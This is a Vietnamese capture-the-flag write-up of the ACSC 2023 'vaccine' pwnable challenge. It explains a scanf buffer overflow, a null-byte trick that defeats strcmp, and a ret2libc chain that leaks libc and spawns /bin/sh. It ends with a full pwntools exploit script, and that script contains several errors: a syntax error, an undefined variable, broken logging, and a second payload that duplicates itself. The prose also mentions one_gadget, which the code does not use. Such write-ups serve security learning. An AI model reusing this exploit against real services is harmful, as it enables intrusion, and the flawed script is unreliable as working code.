 > From phis1Ng_ with luv
# ACSC 2023 : vaccine - warmup
**Category:** Pwnable
- Link challenge : [vaccine](https://github.com/w1n-gl0ry/CTF/blob/b65dfe3934341213d459b63d3bd81b0a0453f720/2023/ACSC_2023/vaccine/vaccine)


> nc vaccine.chal.ctf.acsc.asia 1337

Bên lề: Đây là Writeup đầu tay trong năm 2023 của mình, nên là có sai sót gì mong mọi người thông cảm nhé :> 



## Write up

# 1. Tìm lỗi:

Đầu tiên, mình dùng lệnh `file` để xem trong file thực thi có gì:
```
vaccine: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=a158b3c9f204dc1fdf47fefdac488b0da10fc5b0, for GNU/Linux 3.2.0, not stripped
```
Nah, đây à 1 file executable `64 bit` không bị [stripped](https://stackoverflow.com/questions/4698299/set-breakpoint-in-an-stripped-elf-executable) (stripped là gì thì bấm vào để tham khảo thêm nhé), nên ta có thể dễ dàng tìm kiếm các functions trong `IDA` cũng như `gdb`

Như thường lệ của một người chơi Pwn, tải file về và thả vào `IDA` thôi nào !

Nhìn vào hàm main bên dưới:

![vaccine.png](https://github.com/w1n-gl0ry/CTF/blob/449dc437169f924248351d62c2212c896aa0190d/2023/ACSC_2023/vaccine/image/vaccine.png)

Ta thấy, chương trình tạo mảng s2 sau đó bắt ta nhập vào thông qua hàm `scanf()`, nhìn sơ ta dễ thấy hàm `scanf()` không chỉ định độ dài nhập vào nên xuất hiện lỗ hổng `buffer overflow`.

Mình tiến hành kiểm tra các mitigations của file thực thi để xem có khai thác được gì không, dùng lệnh `checksec` để kiểm tra:

```
[*] '/home/w1n_gl0ry/CTF/Pwnable/ACSC2023/vaccine/bin/vaccine'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Hmm, ta thấy chỉ bits `NX` được bật, có nghĩa là chúng ta không thể exploit bằng cách inject shellcode được, nên ta tiếp tục phân tích hàm main,

![vaccine.png](https://github.com/w1n-gl0ry/CTF/blob/fdd8a08e8b941ed321e7e27b6dbedd0bd22b0b75/2023/ACSC_2023/vaccine/image/Screenshot%202023-03-07%20135509.png)

Chương trình kiểm tra toàn bộ biến s2 với các kí tự ASCII `65`, `67`, `71`, `84` tương ứng với các kí tự `A`, `C`, `G`, `T` mà chương trình gọi là `DNA codes`. Nếu khác kí tự nào thì chương trình sẽ thoát ngay lập tức.

Ngược lại, lúc s2 thõa mãn thì chương trình sẽ tiếp tục kiểm tra với mảng s cho trước gồm các kí tự trong file `RNA.txt`. Rõ ràng, ta không thể đoán được nên phải tìm cách bypass đoạn này. Khi tất cả đều thõa mãn thì chúng ta sẽ nhận được reward (maybe là flag :>)

Đến đây, chúng ta chỉ cần bypass các kí tự `DNA codes` và hàm `strcmp(s, s2)`, từ đó ta có thể ghi đè `return addr` bằng payload mà ta mong muốn.

# 2. Ý tưởng:

Làm sao ta có thể bypass được hàm `strcmp()` trong khi ta không biết trong mảng s có gì ?

-> Mấu chốt chính là hàm `scanf()`, dùng lệnh `man 3 scanf` để xem hàm `scanf()` làm gì:
Hàm `scanf()` vẫn sẽ đọc chuỗi cho đến khi gặp kí tự newlines, nhưng kí tự null bytes thì nó vẫn đọc và lúc kết thúc chuỗi hàm sẽ tự động thêm null bytes vào cuối xâu. Ta lợi dụng điều này để ghi đè qua mảng s một kí tự như s2 để bypass được hàm `strcmp()` . Trong khi đó, hàm `strlen()` vẫn thõa mãn. Tuyệt !

Khi ta đã thõa mãn các điều kiện, việc cuối cùng là ghi đè `return addr` về payload mà chúng ta mong muốn.


# 3. Exploit:

[+] Payload 1: Bypass kí tự DNA codes và hàm `strcmp()` :
-> Ta sẽ điền kí tự `A` vào s2 và lấp đầy các kí tự null cho tới mảng s rồi điền kí tiếp tục tự `A`, hàm sẽ tự động null bytes vào cuối xâu nên không cần quan tâm đến mảng s nữa, việc còn lại là lấp đầy `buf` cho tới `ret addr`

Cách 2: Ta sẽ lấp đầy `buf` cho tới `ret addr` bằng các kí tự null -> cũng thõa mãn.

`payload = (b'A' + (offset s2 -> s) * b'\x00' + b'A').ljust(256, b'\x00')`
hoặc
`payload = payload.ljust(256, b'\x00')`

```
[+] Starting local process './vaccine': pid 15939
[*] running in new terminal: ['/usr/bin/gdb', '-q', './vaccine', '15939', '-x', '/tmp/pwn7i3d52cm.gdb']
[+] Waiting for debugger: Done
[*] Switching to interactive mode
Give me vaccine: Congrats! You give the correct vaccine!
Here is your reward: REDACTED
```
Vậy là đã thành công bước đầu, ta tiếp tục tính payload thứ 2,

[+] Payload 2: Tìm các gadgets phù hợp cho việc leak địa chỉ của hàm nào đó trong thư viện, rồi sau đó tính địa chỉ `libc_base`:

Ta dùng lệnh `ROPgadget --binary vaccine | grep "ret" ` :

```
0x0000000000401443 : pop rdi ; ret
0x0000000000401441 : pop rsi ; pop r15 ; ret
0x000000000040101a : ret
```
-> Có thể những gadgets này sẽ giúp ích trong việc exploit của chúng ta.

```
pop_rdi_ret = 0x401443
pop_rsi_ret = 0x401441
ret = 0x40101a
```
Ta lợi dụng hàm puts để in ra địa chỉ hàm `fopen()` trong thư viện, `payload` như sau:

`payload += <pop_rdi_ret> + <địa chỉ hàm fopen_got> + <địa chỉ hàm puts> + <địa chỉ hàm main>`

Ta quay lại hàm main để địa chỉ hàm `fopen()` được in ra.

```
[+] Starting local process './vaccine': pid 16429
[*] running in new terminal: ['/usr/bin/gdb', '-q', './vaccine', '16429', '-x', '/tmp/pwn6jt6gfhv.gdb']
[+] Waiting for debugger: Done
got_leak: 0x7f0377c7f6b0
libc_base:  0x7f0377c00000
[*] Switching to interactive mode
Congrats! You give the correct vaccine!
Here is your reward: REDACTED
```
Thành công lấy leak được địa chỉ và tính được `libc_base`, việc còn lại của ta là thực thi hàm `system('/bin/sh')` !

[+] Payload 3:
Sau khi có địa chỉ hàm `fopen()` ta sẽ tính được địa chỉ `libc_base` , ta tính địa chỉ hàm `system` và chuỗi `/bin/sh` để chiếm được shell.

Tới đây ta dùng one_gadgets để mọi việc dễ dàng hơn (thật ra là mình đã thử cách khác nhưng không thành, có vẻ như chương trình đã cố tình chặn hàm `system()` :>)


# 4. Chiếm cờ:

Đây là toàn bộ file exploit của mình: [asd.py](https://github.com/w1n-gl0ry/CTF/blob/282b01d2218753947b6b7ae75d8f3fc29d1daf3e/2023/ACSC_2023/vaccine/asd.py)
```
#!/usr/bin/python3
from pwn import *

elf = context.binary = ELF('./vaccine')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
#r = remote('vaccine.chal.ctf.acsc.asia', 1337)
r = process('./vaccine')

str="""
b* main+417
"""
#gdb.attach(r, str)

pop_rdi_ret = 0x401443
pop_rsi_ret = 0x401441
ret = 0x40101a
payload = b'A' 
payload += + b'\x00'*111
payload += b'A'
payload = payload.ljust(0x100, b'\x00')
payload += p64(0)
payload += p64(pop_rdi_ret)
payload += p64(elf.got['fopen'])
payload += p64(elf.symbols['puts'])
payload += p64(elf.symbols['main'])

r.sendline(payload)

leak = r.recv()
fopen_leak = u64(leak[:6].ljust(8, b"\x00"))
log.info('fopen_leak: ' + fopen_leak)

libc_base = libc_leak - libc.symbols['fopen']
log.info('libc_base: ' + libc_base)

bin_sh = libc_base + next(libc.search(b"/bin/sh\x00"))
system = libc_base + libc.symbols['system']
exit = libc_base + libc.symbols['exit']

payload = b'A' 
payload += b'\x00'*111
payload += b'A'
payload += payload.ljust(0x100, b'\x00')
payload += p64(0)
payload += p64(pop_rdi_ret)
payload += p64(bin_sh)
payload += p64(ret)
payload += p64(system)
payload += p64(exit)

r.sendline(payload)
r.interactive()
```
Chúc mọi người 1 tuần tốt lành !!





